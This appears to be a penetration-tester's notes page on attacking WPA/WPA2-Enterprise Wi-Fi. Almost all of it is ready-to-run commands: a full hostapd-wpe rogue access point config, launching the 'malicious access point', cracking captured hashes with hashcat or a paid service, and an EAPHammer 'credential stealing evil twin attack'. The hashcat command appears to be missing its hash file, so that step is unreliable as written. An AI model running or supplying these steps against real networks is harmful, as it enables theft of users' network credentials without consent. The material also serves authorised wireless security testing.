 # Enterprise

### hostapd-wpe

1\. Install the required dependencies:

```bash
sudo apt install hostapd-wpe libnl-3-dev libssl-dev
```

2\. Modify the `hostapd-wpe.conf` file, ensuring to modify the `ssid` variable:

```bash
nano /etc/hostapd-wpe/hostapd-wpe.conf

#
# hostapd-wpe.conf
# Brad Antoniewicz (@brad_anton) - Foundstone
# ------------------------------------------------
#
# Configuration file for hostapd-wpe
# 
# General Options - Likely to need to be changed if you're using this
# Interface - Probably wlan0 for 802.11, eth0 for wired
interface=wlan0
# Driver - comment this out if 802.11
#driver=wired
# May have to change these depending on build location
eap_user_file=hostapd-wpe.eap_user
ca_cert=../../hostapd-wpe/certs/ca.pem
server_cert=../../hostapd-wpe/certs/server.pem
private_key=../../hostapd-wpe/certs/server.pem
private_key_passwd=whatever
dh_file=../../hostapd-wpe/certs/dh
# 802.11 Options - Uncomment all if 802.11
ssid=hostapd-wpe
hw_mode=g
channel=1
```

3\. Kill problematic processes such as `wpa_supplicant` which may interfere with our  access point:

```bash
sudo airmon-ng check
```

4\. We can then run our malicious access point and wait for connections:

```bash
hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```

5\. Upon receiving a connection we can attempt to crack the hash provided using Hashcat:

```bash
hashcat -m 5500 00 -a 0 /usr/share/wordlists/rockyou.txt
```

6\. If you are unable to crack the hash locally then it can be submitted to crack.sh and cracked for a price:

{% embed url="https://crack.sh" %}

### EAPHammer

{% embed url="https://github.com/s0lst1c3/eaphammer" %}

1\. Clone `eaphammer` from the official repository:

```bash
git clone https://github.com/s0lst1c3/eaphammer.git
```

2\. Run the `kali-setup` script:

```bash
./kali-setup
```

3\. Finally, setup and execute the credential stealing evil twin attack against a WPA/2-EAP network:

```bash
# generate the certificate
./eaphammer --cert-wizard

# launch the attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid MaliciousAP --creds
```

### References

{% embed url="https://teckk2.github.io/wifi%20pentesting/2018/08/09/Cracking-WPA-WPA2-Enterprise.html" %}

{% embed url="https://adam-toscher.medium.com/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2" %}

{% embed url="https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html" %}
